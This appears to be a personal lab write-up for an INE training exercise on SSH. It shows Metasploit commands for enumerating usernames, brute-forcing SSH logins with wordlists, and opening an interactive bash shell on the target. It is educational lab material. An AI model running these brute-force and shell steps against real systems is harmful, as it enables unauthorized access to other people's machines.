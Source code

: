 This module will automatically open up a command shell session here on the target system via SSH. 

```
sessions
sessions 1
/bin/bash -i
ls
whoami
exit
^C
sessions
```

If your initial brute force isn't successful, you can use this module to find usernames and narrow down your brute force.

```
search type:auxiliary name:ssh
use auxiliary/scanner/ssh/ssh_enumusers
show options
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
run
```

# SSH Login
## Overview
In this lab, run the following auxiliary modules against the target:

auxiliary/scanner/ssh/ssh_version

auxiliary/scanner/ssh/ssh_login

Instructions: 

This lab is dedicated to you! No other users are on this network :)

Once you start the lab, you will have access to a root terminal of a Kali instance

Your Kali has an interface with IP address 192.X.Y.2. Run "ip addr" to know the values of X and Y.

The target server should be located at the IP address 192.X.Y.3.

Do not attack the gateway located at IP address 192.X.Y.1

Use /usr/share/metasploit-framework/data/wordlists/common_users.txt username dictionary

Use /usr/share/metasploit-framework/data/wordlists/common_passwords.txt password dictionary

## Solutions
The solution for this lab can be found in the following manual: https://assets.ine.com/labs/ad-manuals/walkthrough-1526.pdf

## 我自己的思路
[SSH Version Scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/ssh/ssh_version/)
